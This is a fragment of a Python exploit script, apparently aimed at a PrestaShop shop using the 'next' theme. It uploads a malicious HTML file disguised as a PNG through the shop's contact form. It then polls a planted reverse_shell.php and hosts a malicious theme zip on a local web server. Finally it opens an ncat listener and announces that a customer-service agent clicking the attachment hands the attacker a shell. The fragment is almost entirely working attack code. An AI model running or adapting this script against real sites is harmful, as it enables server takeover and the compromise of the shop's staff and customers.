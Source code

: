 ```python
    cookies = response.cookies

    files = {
        'fileUpload': ('test.png', html_content, 'image/png'),
    }

    data = {
        'id_contact': '2',
        'from': email,
        'message': message_content,
        'url': '',
        'token': token,
        'submitMessage': 'Send'
    }

    response = requests.post(url, files=files, data=data, cookies=cookies)
    url = f"{host_url}/themes/next/reverse_shell.php"

    req_thread = threading.Thread(target=send_get_requests, args=(url, 15,))
    req_thread.daemon = True
    req_thread.start()

    server_thread = threading.Thread(target=run_http_server)
    server_thread.daemon = True
    server_thread.start()

    if response.status_code == 200:
        print(f"[X] Yay! Your exploit was sent successfully!")
        print(f"[X] Remember to python http server on port whatever port is specified in exploit.html \n\tin directory that contains ps_next_8_theme_malicious.zip to host it.")
        print(f"[X] Once a CS agent clicks on attachment, you'll get a SHELL!")
        print("[X] Ncat is now listening on port 1234. Press Ctrl+C to terminate.")

        output = subprocess.call(["ncat", "-lnvp", "1667"], shell=False)
        if b"Ncat: Connection from " in output:
            with print_lock:
                print("Stopping threads!")
            stop_event.set()
        else:
            print(f"DEBUG:: {output}")
    else:
        print(f"[!] Failed to send the message. Status code: {response.status_code} Reason: {response.reason}")


class CustomRequestHandler(http.server.SimpleHTTPRequestHandler):
    def log_request(self, code='-', size='-'):
        with print_lock:
            print(f"Request: {self.command} {self.path} {self.request_version}")
            print(f"Response: {code} {size}")
        super().log_request(code, size)



if __name__ == "__main__":
    main()
```
